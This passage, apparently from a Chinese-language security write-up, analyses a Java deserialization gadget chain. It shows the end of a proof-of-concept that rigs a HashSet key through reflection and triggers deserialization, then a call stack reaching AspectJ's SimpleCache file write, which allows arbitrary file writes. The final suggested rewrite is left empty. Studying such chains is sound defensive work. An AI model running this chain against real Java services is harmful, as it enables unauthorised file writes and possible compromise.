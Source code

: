 ```java

        Field f2 = null;
        try {
            f2 = HashMap.class.getDeclaredField("table");
        } catch (NoSuchFieldException e) {
            f2 = HashMap.class.getDeclaredField("elementData");
        }

        setAccessible(f2);
        Object[] array = (Object[]) f2.get(innimpl);

        Object node = array[0];
        if(node == null){
            node = array[1];
        }

        Field keyField = null;
        try{
            keyField = node.getClass().getDeclaredField("key");
        }catch(Exception e){
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }

        setAccessible(keyField);
        keyField.set(node, entry);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(map);
        oos.close();

        ByteArrayInputStream bais = new ByteArrayInputStream(barr.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
        ois.close();
    }
    public static Constructor<?> getFirstCtor(final String name) throws Exception {
        final Constructor<?> ctor = Class.forName(name).getDeclaredConstructors()[0];
        setAccessible(ctor);
        return ctor;
    }
    public static void setAccessible(AccessibleObject member) {
        member.setAccessible(true);
    }
}
```
调用栈如下：
```
writeToPath:253, SimpleCache$StoreableCachingMap (org.aspectj.weaver.tools.cache)
put:193, SimpleCache$StoreableCachingMap (org.aspectj.weaver.tools.cache)
get:152, LazyMap (org.apache.commons.collections.map)
getValue:73, TiedMapEntry (org.apache.commons.collections.keyvalue)
hashCode:120, TiedMapEntry (org.apache.commons.collections.keyvalue)
hash:362, HashMap (java.util)
put:492, HashMap (java.util)
readObject:309, HashSet (java.util)
```
也可以将原来的
```java
Transformer ct = new ConstantTransformer(filecontent.getBytes(StandardCharsets.UTF_8));
```
改写成
```java
```